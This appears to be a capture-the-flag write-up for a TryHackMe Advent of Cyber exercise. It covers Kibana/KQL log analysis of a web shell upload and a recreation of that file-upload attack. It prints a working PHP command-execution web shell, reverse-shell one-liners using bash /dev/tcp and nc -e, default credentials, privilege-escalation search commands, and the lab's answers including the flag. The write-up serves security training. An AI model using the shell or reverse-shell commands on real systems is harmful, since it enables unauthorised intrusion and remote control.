

# Day 3 - Log Analysis 2

*Even if I wanted to go, their vulnerabilities wouldn't allow it.*



This challenge dives into investigating how a web application is exploited by analyzing the Apache2 logs (which is denoted as operation blue) using the ELK SIEM Stack and also gives us a sneak peek into the process that went behind exploiting this web application (denoted as operation red).

### Kibana Query Language

KQL, or Kibana Query Language, is an easy-to-use language that can be used to search documents for values.or example, the query to search all documents for an IP address may look like `ip.address: "10.10.10.10"`. 

Alternatively, Kibana also allows using Lucene query, an advanced language that supports features such as fuzzy terms (searches for terms that are similar to the one provided), regular expressions, etc.

| **Query/Syntax** | **Description** | **Example** |
| --- | --- | --- |
| " " | The two quotation marks are used to search for specific values within the documents. Values in quotation marks are used for **exact** searches. | "TryHackMe" |
| * | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | United* (would return United Kingdom and United States) |
| OR | This logical operator is used to show documents that contain **either** of the values provided. | "United Kingdom" OR "England" |
| AND | This logical operator is used to show documents that contain **both** values. | "Ben" AND "25" |
| : | This
 is used to search the (specified) field of a document for a value, such
 as an IP address. Note that the field you provide here will depend on 
the fields available in the index pattern. | ip.address: 10.10.10.10 |

## Operation Blue:

### Scenario:

Thanks to our extensive intrusion detection capabilities, our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this.

The datasource (or collection in ELK / index) to be used in our investigation is called `“wareville-rails”`, and the time frame to be used is between **October 1 2024 00:00:00**, and  **October 2 2024 00:00:00.**


We see 811 events come up for the time frame selected for the `“wareville-rails”` index.


We see 3 source IP addresses in the logs. To investigate further, let’s focus on the IP `10.13.27.115`.

The very first log points out something interesting:


We see a `GET` request being made to `/ORRS-PHP/admin/assets/img/profile/shell.php` . 

Note that this is only a demonstration of a scenario and a tutorial on how to use the ELK SIEM and KQL.

## Operation Red:

This part of the room gives us an overview on how the actual file upload + RCE attack is carried out. Again, note that this is only a simulation and not the actual challenge itself.

### Why Do Websites Allow File Uploads

File uploads are commonly used on websites to allow users to:

- Upload profile pictures, invoices, or other documents.
- Update their accounts, send receipts, or submit claims.

**Benefits:**

- Improves user experience by making interactions smoother and more efficient.

**Risks:**

- File uploads, if not properly secured, introduce vulnerabilities attackers can exploit.

---

## File Upload Vulnerabilities

File upload vulnerabilities arise when websites mishandle uploaded files. Without proper validation, the following attacks are possible:

- **RCE (Remote Code Execution):**
    
    Uploading a script that the server executes, allowing the attacker control over the system.
    
- **XSS (Cross-Site Scripting):**
    
    Uploading an HTML file containing malicious JavaScript to steal cookies or data.
    

---

## Why Unrestricted File Uploads Are Dangerous

Unrestricted file uploads allow attackers to upload harmful files. Without validation, attackers might upload:

- Malicious scripts (e.g., PHP, executables) that the server could process.
- Vulnerability-exploiting crafted files (e.g., malicious image files).
- Web shells to gain remote control over the server.

### Examples:

1. Uploading scripts for **RCE**.
2. Uploading crafted files that exploit vulnerabilities in file processors.
3. Uploading a web shell and accessing it via a browser.

---

## Usage of Weak Credentials

Weak or default credentials are a common entry point for attackers.

- **Default Credentials:**
    - Often left unchanged after initial setup.
    - Attackers test common usernames/passwords to gain unauthorized access.

### Examples of Weak/Default Credentials:

| **Username** | **Password** |
| --- | --- |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

Attackers may use tools or manual techniques to exploit these vulnerabilities.

---

## What is Remote Code Execution (RCE)

**Definition:**

Remote code execution (RCE) allows attackers to run arbitrary code on a system.

**Impact:**

- Full system control.
- Sensitive data exfiltration.
- Compromise of connected systems.

---

## What Is a Web Shell?

A **web shell** is a script uploaded by attackers to gain remote control of a vulnerable server.

### Capabilities:

1. Execute commands on the server.
2. Manipulate files and directories.
3. Use the server to attack other systems.

### Methods of Use:

- **Web-based Interface:** Directly run commands.
- **Reverse Shell:** Establish a direct connection back to the attacker’s system for real-time control.

**Potential Actions After Gaining Access:**

- Privilege escalation (e.g., root access).
- Moving laterally within the network.
- Exfiltrating sensitive data.

---

## Exploiting an RCE Vulnerability

Understanding how RCE works and how attackers exploit it helps in identifying and mitigating risks. Proper validation and security controls are critical to protecting systems from these vulnerabilities.

## What Is a Web Shell?

A **web shell** is a script that attackers upload to a vulnerable server, providing them with remote control over the system.

### Capabilities of a Web Shell:

- Execute commands on the server.
- Manipulate files and directories.
- Launch attacks on other systems.
- Move laterally within the network.
- Download sensitive data or pivot to other services.

### Usage Methods:

1. **Web-Based Interface:**
    - Directly run commands using a web-based control panel.
2. **Reverse Shell:**
    - Establish a direct connection back to the attacker's system for real-time control.

### Potential Impact:

- **Privilege Escalation:**
    
    Attackers may gain root access or higher privileges to control the system further.
    
- **Network Exploitation:**
    
    Compromise of other connected systems or deeper penetration into the network.
    

We will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability [built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md). 

We can use the following php file as our web shell to upload to our vulnerable application:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html><html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

The above script, when accessed, displays an input field. Whatever is  entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user.


### Making the Most of It

After exploiting a vulnerability and gaining access to the operating system via a web shell, the next steps depend on:

- **Your goal:** What you aim to achieve (e.g., data exfiltration, privilege escalation).
- **System misconfigurations:** These determine what actions are possible.

Below are examples of commands that can be run on a Linux system after gaining access, along with their uses:

| **Command** | **Purpose** |
| --- | --- |
| `ls` | Lists files and directories in the current location, helping you understand your surroundings. |
| `cat <file>` | Outputs the contents of a file (e.g., configuration files, logs). |
| `pwd` | Displays the current working directory. |
| `whoami` | Reveals the identity of the user you're logged in as. |
| `hostname` | Displays the system's name, potentially providing insights into its role on the network. |
| `uname -a` | Provides detailed system information (e.g., OS name, kernel version). |
| `id` | Displays the user’s ID and group memberships. |
| `ifconfig` | Reveals the network configuration, showing IP addresses and active interfaces. |
| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` | Creates a reverse shell using Bash to connect back to your system. |
| `nc -e /bin/sh <your-ip> <port>` | Initiates a reverse shell using Netcat. |
| `find / -perm -4000 -type f 2>/dev/null` | Finds **SUID (Set User ID)** files for privilege escalation opportunities. |
| `find / -writable -type f 2>/dev/null \| grep -v "/proc/"` | Identifies writable files, excluding `/proc/`, which might allow modifications or exploitation. |

---

### Notes:

- These commands help you **explore, inspect, and exploit** the target environment.
- The effectiveness depends on your ability to assess the system’s vulnerabilities and misconfigurations.

## The Challenge:

Task 1 - Investigate the file upload + RCE attack using KQL.

Task 2 - Re-create the attack on the website `*http://frostypines.thm*`

To access frostypines.thm, we would need to reference this in the `/etc/hosts` file:

`echo "10.10.202.190 frostypines.thm" >> /etc/hosts`

### Task 1:

We will be using the `frostypines-resorts` collection and the time frame to be used is **between 11:30 and 12:00 on October 3rd 2024.**


On diving deeper into the logs, we see some very interesting requests being made:


We see commands being passed as parameters to shell.php. Therefore we now know where the web shell is uploaded in the web server - **`/media/images/rooms/shell.php`**

On analyzing a single event, we get to know where the request originated from, using the `clientip` field, which is **`10.11.83.34`**:


Filtering the logs on the `message` field, we get to see all the commands run through the web shell:


### Task 2:

In this task, we re-create the web shell upload attack.

First we visit the site `http://frostypines.thm`


Here we can use the “Account” tab to log in to the application. From our notes above, we have a set of default credentials we can try to log in to the application as the `admin` user.

The username `admin@frostypines.thm` and password `admin`  lets us log in to the application successfully! Usage of default credentials  for the admin account is a serious vulnerability!

We now get to access the admin page:


The admin page provides the option to add a new room, which also has the functionality to upload an image:


We can try uploading our shell.php file here.

We now have our room added to the list:


We already know the location where our shell is uploaded from the logs. We can make sure of this by inspecting the images loaded properly to know the folder where the images are stored.


We now know where the images uploaded are stored on the server - `/media/images/rooms`

Navigate to `/media/images/rooms/shell.php` to access the web shell. On running the `ls` command, we see all the files present in this directory. We also see the file `flag.txt` present in this directory:


We can now use the `cat flag.txt` command to retrieve the contents of `flag.txt` :


This completes task 2.

---

## Questions

1. **BLUE**: Where was the web shell uploaded to?
    
    **Answer format:** /directory/directory/directory/filename.php
    
    Ans: **/media/images/rooms/shell.php**
    
2. **BLUE**: What IP address accessed the web shell?
    
    Ans.: **10.11.83.34**
    
3. **RED**: What is the contents of the flag.txt?
    
    Ans.: **THM{Gl1tch_Was_H3r3}**